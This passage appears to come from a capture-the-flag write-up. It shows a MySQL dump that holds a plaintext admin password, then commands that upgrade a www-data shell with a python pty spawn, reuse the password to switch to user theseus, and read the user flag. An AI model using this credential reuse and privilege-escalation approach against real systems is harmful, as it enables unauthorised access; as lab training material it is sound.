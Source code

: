 ```sql
--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```

We see this in the returned output
```sql
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```
We can simply su theseus with this information to ascend our access privelages past www-data

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$ cat /home/theseus/user.txt
cat /home/theseus/user.txt
ca4d{...}
```
